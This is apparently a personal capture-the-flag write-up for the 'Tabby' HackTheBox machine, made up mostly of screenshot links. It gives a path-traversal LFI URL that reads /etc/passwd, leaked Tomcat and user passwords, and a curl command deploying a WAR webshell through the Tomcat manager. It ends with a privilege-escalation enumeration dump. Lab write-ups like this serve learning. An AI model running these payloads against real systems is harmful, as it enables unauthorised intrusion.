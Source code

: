 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #tomcat #lxc #lxd #adm

# Findings

## External
### Enumeration
![](https://i.imgur.com/bcYbA7V.png)
- LFI
	- ![](https://i.imgur.com/YQK9kZB.png)
- Username: `ash`
- `http://megahosting.htb/news.php?file=../../../../etc/passwd`
![](https://i.imgur.com/gniI6oG.png)
![](https://i.imgur.com/ZJUKfvw.png)

` tomcat: $3cureP4s5w0rd123! `
### Gaining Access
![](https://i.imgur.com/TQMNqVT.png)
![](https://i.imgur.com/77WfG7M.png)
- ` curl -u tomcat:'$3cureP4s5w0rd123!' -T backup.war 'http://tabby.htb:8080/manager/text/deploy?path=/&update=true' `
- I tried to upload `WAR` file with metasploit generating, but it was not working so i used Webshell `JSP`
	- ![](https://i.imgur.com/rdrlAyq.png)
	- ![](https://i.imgur.com/Uv9I6yx.png)

## Internal
### Enumeration
`$enum$`

### Gaining Access
![](https://i.imgur.com/wIFyCVb.png)
![](https://i.imgur.com/GRbkHTg.png)

![](https://i.imgur.com/Dcn5twY.png)
![](https://i.imgur.com/z6Rnmi0.png)
` ash : admin@it `
### Maintaining Access
![](https://i.imgur.com/IMUQrBl.png)
![](https://i.imgur.com/8bN5oBF.png)
![](https://i.imgur.com/k2t3VHX.png)


# Random Notes
<!--⚠️Imgur upload failed, check dev console-->
![[Pasted image 20240509123127.png]]![](https://i.imgur.com/u4xfWhN.png)
```
-rw-r----- 1 root tomcat 5435 Feb 24  2020 /etc/tomcat9/policy.d/04webapps.policy
-rw-r----- 1 root tomcat 2192 Feb 24  2020 /etc/tomcat9/policy.d/01system.policy
-rw-r----- 1 root tomcat 2040 Feb 24  2020 /etc/tomcat9/policy.d/50local.policy
-rw-r----- 1 root tomcat 3237 Feb 24  2020 /etc/tomcat9/policy.d/03catalina.policy
-rw-r----- 1 root tomcat 330 Feb 24  2020 /etc/tomcat9/policy.d/02debian.policy
-rw-r----- 1 root tomcat 7630 May 21  2020 /etc/tomcat9/server.xml
-rw-r----- 1 root tomcat 7262 Feb  5  2020 /etc/tomcat9/catalina.properties
-rw-r----- 1 root tomcat 2799 Feb 24  2020 /etc/tomcat9/logging.properties
-rw-r----- 1 root tomcat 2325 Jun 16  2020 /etc/tomcat9/tomcat-users.xml
-rw-r----- 1 root tomcat 1400 Feb  5  2020 /etc/tomcat9/context.xml
-rw-r----- 1 root tomcat 1149 Feb  5  2020 /etc/tomcat9/jaspic-providers.xml
-rw-r----- 1 root tomcat 172362 Feb  5  2020 /etc/tomcat9/web.xml

╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root   root   4096 Aug 19  2021 .
drwxr-xr-x 20 root   root   4096 Sep  7  2021 ..
drwxr-xr-x  3 tomcat tomcat 4096 Aug 19  2021 tomcat

╔══════════╣ Writable log files (logrotten) (limit 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#logrotate-exploitation
logrotate 3.14.0

    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes
Writable: /var/log/tomcat9/localhost.2024-05-09.log
Writable: /var/log/tomcat9/localhost.2024-05-08.log.gz
Writable: /var/log/tomcat9/catalina.2024-05-08.log.gz
```
/var/cache/tomcat9/Catalina
/var/lib/tomcat9/webapps
/etc/tomcat9/Catalina